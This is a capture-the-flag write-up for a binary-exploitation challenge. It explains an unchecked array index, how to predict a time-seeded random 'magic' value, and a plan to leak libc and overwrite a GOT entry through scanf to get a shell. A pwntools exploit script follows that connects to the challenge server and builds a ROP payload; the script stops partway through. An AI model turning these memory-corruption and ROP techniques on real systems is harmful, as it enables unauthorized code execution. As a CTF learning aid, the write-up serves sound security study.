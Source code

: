 The `v7` array has only 21 members, but the while loop doesn't break if the `idx` variable exceeds 21. This means we can easily create a ROP chain and use the predictable 'magic' to break out of the while loop.

```
import ctypes
LIBC = ctypes.cdll.LoadLibrary('/path/to/dll')
LIBC.srand(LIBC.time(0))
```
I use this trick to bypass the check for the magic value.

```cpp
if ( v7[idc] >= 123456790 )
{
      puts("TVA: you commit the crime of time!!!");
      exit(0);
}
```

Due to this check, it's not easy to create a normal rop chain with the large address in libc. So, I managed to leak libc and use `scanf("%lld", <got_addr>)` to get shell!!!

## Exploit script
> solve.py
```python
from pwn import *
from ctypes import*
if args.LOCAL:
    io=process('./winner_of_all_time')
    if args.GDB:
        cmd="""
        init-pwndbg
        b* 0x0000000000401589
        """
        gdb.attach(io, cmd)
else:
    io=remote('157.245.147.89', 25174)
libc=ELF('./libc.so.6')
elf=context.binary=ELF('./winner_of_all_time')        
glibc = cdll.LoadLibrary('./libc.so.6')


pop_rdi=0x0000000000401589
pop_rsi_r15=0x0000000000401596
ret=0x000000000040101a
pop_rbp_ret=0x000000000040133e
leave_ret=0x00000000004013ac
glibc.srand(glibc.time(None))
magic = glibc.rand() % 123456789
print(magic)

for i in range(22):
    io.sendline(str(10).encode())

rbp=0x404b00
io.sendline(str(rbp).encode())

add_nop_ret=0x000000000040127c
mov_rbx=0x00000000004013a8
scanf=0x404060
d=0x000000000040270F
pl=p64(pop_rdi)
pl+=p64(elf.got.puts)
pl+=p64(elf.sym.puts)
pl+=p64(ret)
```